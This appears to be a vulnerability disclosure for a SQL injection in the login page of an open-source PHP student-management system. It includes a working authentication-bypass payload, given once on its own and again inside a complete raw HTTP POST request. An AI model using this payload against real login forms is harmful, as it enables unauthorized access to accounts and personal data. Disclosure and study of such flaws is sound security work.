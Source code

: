 # student-management-system login.php user SQL inject

   
#### Exploit Title: student-management-system login.php user SQL inject
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://github.com/ningzichun/student-management-system
#### Software Link: https://github.com/ningzichun/student-management-system
#### Version: student-management-system 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection student-management-system does not filter the content correctly at the "login.php" user module, resulting in the generation of SQL injection.

#### Payload used:
`user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4`

#### Proof of Concept


1. Open login.php source code.

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/c1bca541-54db-4027-a702-587f0411e638)

2. POST SQL injection payload  (`user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4`) 

3. Html Request Code

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/e9ed2a4d-d954-4629-8e28-d2eb61825a6c)
```
POST /student/login.php HTTP/1.1
Host: 172.24.6.107:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://172.24.6.107:8081
Connection: close
Referer: http://172.24.6.107:8081/student/?retry=1
Cookie: PHPSESSID=44sif2lb4iq80ieksie1intac7
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4
```

4. response

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/4b36022d-4b2d-4b6c-8009-b20a2ead925e)
![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/16863421-0a3c-4bef-a505-fa1cd8a9e7fa)

